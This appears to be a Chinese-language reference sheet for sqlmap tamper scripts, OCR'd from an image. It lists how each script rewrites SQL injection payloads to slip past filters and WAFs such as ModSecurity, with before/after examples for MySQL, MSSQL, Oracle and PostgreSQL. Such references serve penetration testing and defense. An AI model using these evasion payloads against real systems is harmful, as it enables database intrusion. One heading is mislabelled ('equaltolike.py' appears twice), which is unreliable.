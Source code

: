 **space2comment.py**
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：将空格替换为/**/
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT/**/id/**/FROM/**/users

**equaltolike.py**
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5
作用：将=替换为LIKE
使用脚本前：tamper('SELECT * FROM users WHERE id=1')
使用脚本后：SELECT * FROM users WHERE id LIKE 1

**equaltolike.py**
测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：将>替换为GREATEST，绕过对>的过滤
使用脚本前：tamper('1 AND A > B')
使用脚本后：1 AND GREATEST(A,B+1)=A

**modsecurityversioned.py**
适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：过滤空格，使用mysql内联注释的方式进行注入
使用脚本前：tamper('1 AND 2>1--')
使用脚本后：1 /*!30874AND 2>1*/--

**space2mysqlblank.py**
适用数据库：MySQL
测试通过数据库：MySQL 5.1
作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B')
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT%0Bid%0DFROM%0Cusers

**modsecurityzeroversioned.py**
适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：使用内联注释方式（/*!00000*/）进行注入
使用脚本前：tamper('1 AND 2>1--')
使用脚本后：1 /*!00000AND 2>1*/--

**space2mysqldash.py**
适用数据库：MySQL、MSSQL
作用：将空格替换为 -- ，并追随一个换行符
使用脚本前：tamper('1 AND 9227=9227')
使用脚本后：1--%0AAND--%0A9227=9227

**space2morehash.py**
适用数据库：MySQL >= 5.1.13
测试通过数据库：MySQL 5.1.41
作用：将空格替换为#，并添加一个随机字符串和换行符
使用脚本前：tamper('1 AND 9227=9227')
使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

**appendnullbyte.py**
适用数据库：ALL
作用：在有效载荷的结束位置加载null字节字符编码
使用脚本前：tamper('1 AND 1=1')
使用脚本后：1 AND 1=1%00
